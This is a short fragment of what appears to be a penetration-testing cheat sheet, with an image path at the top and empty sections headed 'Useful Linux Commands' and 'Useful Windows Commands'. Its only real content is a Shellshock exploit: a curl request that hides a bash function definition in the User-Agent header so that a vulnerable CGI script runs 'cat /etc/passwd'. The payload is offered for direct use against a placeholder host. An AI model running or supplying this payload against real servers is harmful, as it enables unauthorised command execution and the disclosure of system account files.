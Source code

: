 ```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://<IP>/cgi-bin/<SCRIPT>
```

------

## USEFUL LINUX COMMANDS

```

```

------

## USEFUL WINDOWS COMMANDS

```

```